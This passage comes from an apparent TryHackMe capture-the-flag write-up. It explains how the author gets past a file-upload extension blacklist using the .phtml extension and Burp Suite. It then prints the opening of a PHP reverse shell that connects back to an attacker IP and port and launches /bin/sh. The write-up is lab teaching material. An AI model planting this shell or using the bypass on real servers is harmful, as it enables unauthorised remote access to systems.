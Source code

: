 
The internal directory seems interesting... Let's see what it hides:


![internalPage](/assets/images/tryhackme/vulnversity/07 InternalPage.png)


# Explotation

Well, this definitely smells like a **File Upload Vulnerability**. We can see that the file extension for the index page is *.php*, and the **Wappalyzer** extension
also detects that the site is running *php*. So let's test upload a *.php* file: 


![ExtensionNotAllowed](/assets/images/tryhackme/vulnversity/08 ExtensionNotAllowed.png)


Hmmm... no luck. It seems like the site has blacklisted certain extensions, but we can still try alternate *php* extensions such as:

- php3
- php4
- php5
- phtml

To make testing easier, we can use burpsuite to intercept the file upload request and check how it responds to the different extensions. You can use intruder to generate
a payload list in the "filename" parameter, but I will just use the repeater to test since it should be a short list: 


![phtmlSuccess](/assets/images/tryhackme/vulnversity/10 phtmlSuccess.png)


Success! The site seems to accept *.phtml* extensions. We can upload a malicious file with a payload that executes when we try to access it on the website. Use the following
code replacing the ip and port variables with your own ip address and port in which you will have your listener setup:


```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.84.126';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
```